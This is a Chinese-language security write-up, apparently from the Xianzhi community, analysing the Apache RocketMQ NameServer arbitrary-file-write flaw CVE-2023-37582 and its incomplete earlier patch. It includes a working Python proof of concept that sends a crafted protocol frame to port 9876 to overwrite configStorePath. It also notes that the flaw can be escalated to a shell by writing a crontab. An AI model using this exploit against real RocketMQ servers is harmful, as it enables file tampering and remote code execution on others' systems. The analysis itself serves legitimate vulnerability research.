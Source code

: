 

# Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析 - 先知社区

Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析



# 漏洞描述

最近，阿里云又发布了 RocketMQ 的漏洞通告，因为才分析过这个漏洞，所以再来看一下

[![](assets/1701612301-118d1eda9871c1f659142dc046c547f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232628-78f31f82-20c8-1.png)

一看是由于上次没有修复完善的原因，拉一版修复的源码再来看一下。

# 漏洞分析

[![](assets/1701612301-a0d76d496ca037d1963cd21f7d7f5ac5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232645-82d53580-20c8-1.png)

修补的地方在 namesrv，还是 updateconfig 这个地方，这里可以用 RocketMQ 自己的协议，用不同的 code 调用过来

[![](assets/1701612301-c20b54c005803a1790292a34cd7b19e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232653-87b41c6a-20c8-1.png)

[![](assets/1701612301-d29b723d966081bbfad7d7449219a34c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232659-8b4f2cac-20c8-1.png)

这里是 318，namesrv 的端口是 9876

[![](assets/1701612301-712909b3f2584ea20990dae0665737c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232707-8fea9eea-20c8-1.png)

之前的漏洞，可以通过 update 造成任意文件写入，而补丁则把控制文件路径的 properties 加入来黑名单，跟进 update

```plain
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}
```

因为之前的了解，就直接跟到 persist 了

[![](assets/1701612301-e90ef4f53ef49985be841b1ccffc8c32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232717-96078a90-20c8-1.png)

在 string2File 这里造成的任意文件写入，第二个参数是 filename，所以跟进到 getStorePath 观察一番

[![](assets/1701612301-52740a04bbf03bd66bbd4b2a074f1799.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232735-a0871d1e-20c8-1.png)

最后的返回的 realStorePath 在这里赋值，storePathFiled 是一个 Field 实例化的类，这个类是用于反射的，看到它时 configStorePath 字段，所以这里全是就是获取的其实是 storePathObject 中 configStorePath 的值

[![](assets/1701612301-5f6dae8e7ea1fac393bd19640850939e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232746-a6db8dee-20c8-1.png)

这些都是我们在 RocketMQ 的协议中的 body 可以控制的，并且没有被过滤，过滤的 properties 为 configStorePathName

也印证了为什么这次的补丁时把 configStorePathName 改为 configStorePath

# 漏洞复现

```plain
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\naaaConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

[![](assets/1701612301-23b72713e59e51a6fef37c4c68b5655f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232802-b09724ce-20c8-1.png)

至于漏洞通告中写到的远程代码执行，在 5.1.1 版本之前可以结合 FilterServerManager 这个类的心跳机制，在 unix 和 linux 下可以命令执行，但是在 5.1.0 到 5.1.1 的版本更新中删除了这个类，只能用写 crontab 的方式来获取 shell 了

参考链接：

[https://github.com/apache/rocketmq/pull/6843/files](https://github.com/apache/rocketmq/pull/6843/files)

[https://avd.aliyun.com/detail?id=AVD-2023-37582](https://avd.aliyun.com/detail?id=AVD-2023-37582)
